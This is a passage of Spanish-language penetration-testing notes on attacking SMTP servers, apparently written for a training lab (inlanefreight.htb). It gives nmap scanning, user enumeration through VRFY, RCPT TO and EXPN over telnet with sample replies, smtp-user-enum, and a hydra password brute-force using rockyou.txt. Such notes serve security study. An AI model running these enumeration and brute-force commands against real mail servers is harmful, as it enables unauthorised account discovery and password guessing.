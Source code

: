 ```bash
dig txt _dmarc.$domain
```

## Ataques específicos del protocolo
### SMTP 
#### Comandos que soporta el servidor - `nmap`
Muchos servidores de correo pueden tener **`EXPN`** y **`VRFY`** deshabilitados por razones de seguridad. Podemos conocer los comandos que soporta el servidor escribiendo lo siguiente
```bash
sudo nmap -Pn -p25 --script smtp-commands $target
```
#### Enumerar usuarios - Manual

- `VRFY` - Validar nombre de usuario de mail
	```bash
	telnet $target 25
	# Una vez conectados en función de la respuesta el usuario existirá o no
	VRFY www-data
	
	252 2.0.0 www-data
	```
 - `RCPT TO` - Validar usuarios 
	```bash
	telnet $target 25
	# Una vez conectados en función de la respuesta el usuario existirá o no
	RCPT TO john
	
	250 2.1.5 john... Recipient ok
	```
-  `EXPN` - Permite validar listas de usuarios (`all`, `support-team`...)
	```bash
	telnet $target 25
	# Nos puede devolver una lista en vez de una respuesta booleana
	EXPN support-team

	250 2.0.0 carol@inlanefreight.htb
	250 2.1.5 elisa@inlanefreight.htb
	```
#### Enumerar usuarios - `smtp-user-enum`
Con el parámetro `-M` podemos especificar como argumento cómo aplicaremos fuerza bruta (`VRFY`, `EXPN`, `RCPT`)
```bash
smtp-user-enum -M RCPT -U userlist.txt -D inlanefreight.htb -t $target
```
#### Fuerza bruta
```bash
hydra -l 'nombreUsuario' -P /usr/share/wordlists/rockyou.txt smtp://$target
```
